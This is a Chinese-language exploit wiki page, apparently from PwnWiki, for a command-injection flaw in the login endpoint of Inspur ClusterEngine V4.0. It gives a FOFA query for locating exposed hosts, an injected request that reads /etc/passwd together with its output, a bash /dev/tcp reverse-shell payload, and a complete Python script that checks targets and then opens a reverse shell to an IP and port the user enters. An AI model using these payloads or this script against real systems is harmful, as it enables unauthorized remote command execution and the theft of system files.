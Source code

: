 <languages /> <translate>

漏洞影響
--------

浪潮ClusterEngineV4.0 </translate>

FOFA
----

    title="TSCEV4.0"

POC
---

<translate> 出現 root:x:0:0 則存在漏洞 </translate>

    op=login&username=test`$(cat /etc/passwd)`

    {"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user test does not exist\nerror:1\n"}

<translate>

反彈shell
---------

</translate>

    op=login&username=test`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`

EXP
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mVersion: 浪潮ClusterEngineV4.0                                     \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+  \033[36mIP          >>> xxx.xxx.xxx.xxx:9999                              \033[0m')
        print('+  \033[36mPORT        >>> 9999                                              \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "/login"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        }
        data = "op=login&username=test`$(cat /etc/passwd)`"
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=4)
            etc_passwd = re.findall(r'\{"err":"/bin/sh: (.*?): No such', response.text)
            if response.status_code == 200 and "root:x:0:0" in response.text:
                print("\033[32m[o]    目标 {} 可能存在漏洞, 响应为:{} \033[0m".format(target_url, etc_passwd[0]))
                POC_2(target_url)
            else:
                print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
        except Exception as e:
            print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

    def POC_2(target_url):
        IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
        PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
        vuln_url = target_url + "/login"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        }
        data = "op=login&username=`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261`".format(IP, PORT)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False)
        except Exception as e:
            print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
        POC_1(target_url)

<translate>

參考
----

</translate> <https://short.pwnwiki.org/?c=aLBsJw>